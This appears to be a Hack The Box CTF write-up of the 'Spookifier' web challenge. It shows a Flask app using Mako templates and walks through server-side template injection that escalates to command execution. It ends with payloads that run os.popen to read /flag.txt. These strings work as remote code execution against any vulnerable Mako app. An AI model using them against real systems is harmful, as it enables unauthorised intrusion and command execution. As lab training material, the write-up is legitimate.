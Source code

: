 ```yaml
---
title: Spookifier HTB Challenge (English)
image: https://tse1.mm.bing.net/th?id=OIG1.iKzTRYDeUwZgb8AvNvbH&pid=ImgGn
description: Challenge Spookifier HTB [Difuculty very easy]
categories: [Challenge,HackTheBox]
tags: [web,very easy]
---
```



## Introduction

N/A


### Machine Description

- Name: Spookifier
- Goal: Get the flag
- Difficulty: very easy
- Operating System: N/A
- link: [Spookifier](https://app.hackthebox.com/challenges/413)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/Challenges/Challenge%20Spookifier.pdf)


## Explotation



We have this input where whatever we introduce we get their differents font styles:

![](/assets/img/Anexos/Pasted%20image%2020250402090826.png)

![](/assets/img/Anexos/Pasted%20image%2020250402090845.png)

We can try a **XSS Injecton** 
![](/assets/img/Anexos/Pasted%20image%2020250402090924.png)

It's worked, but this is not for this way.

If we check the web files we can affirm it's using _MakoTemplates_

```shell
❯ ls -l
drwxrwxrwx root root 4.0 KB Tue Nov  1 10:20:58 2022  application
.rwxrwxrwx root root 101 B  Tue Nov  1 09:38:18 2022  run.py
❯ cat run.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: run.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from application.main import app
   2   │ 
   3   │ app.run(host='0.0.0.0', port=1337, debug=False, use_evalex=False)
```

```shell
❯ cat main.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: main.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from flask import Flask, jsonify
   2   │ from application.blueprints.routes import web
   3   │ from flask_mako import MakoTemplates
   4   │ 
   5   │ app = Flask(__name__)
   6   │ MakoTemplates(app)
   7   │ 
   8   │ def response(message):
   9   │     return jsonify({'message': message})
  10   │ 
  11   │ app.register_blueprint(web, url_prefix='/')
  12   │ 
  13   │ @app.errorhandler(404)
  14   │ def not_found(error):
  15   │     return response('404 Not Found'), 404
  16   │ 
  17   │ @app.errorhandler(403)
  18   │ def forbidden(error):
  19   │     return response('403 Forbidden'), 403
  20   │ 
  21   │ @app.errorhandler(400)
  22   │ def bad_request(error):
  23   │     return response('400 Bad Request'), 400
```

So let's try **SSTI**

![](/assets/img/Anexos/Pasted%20image%2020250402091448.png)
it does not work with this payload, let's try with:

```shell
${7*7} 
```

![](/assets/img/Anexos/Pasted%20image%2020250402091506.png)

It worked. This is MakoTemplates so the next step is **command injection**:

```shell
${self.module.cache.util.os.system("id")}
```


![](/assets/img/Anexos/Pasted%20image%2020250402091908.png)

At firts I was not able to see the output, that's why we have to replace `os.system()` with `os.popen().read()`

```shell
${self.module.cache.util.os.popen('id').read()}
```
![](/assets/img/Anexos/Pasted%20image%2020250402092715.png)

Now we're able to see the output and we get the flag!

```shell
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![](/assets/img/Anexos/Pasted%20image%2020250402092735.png)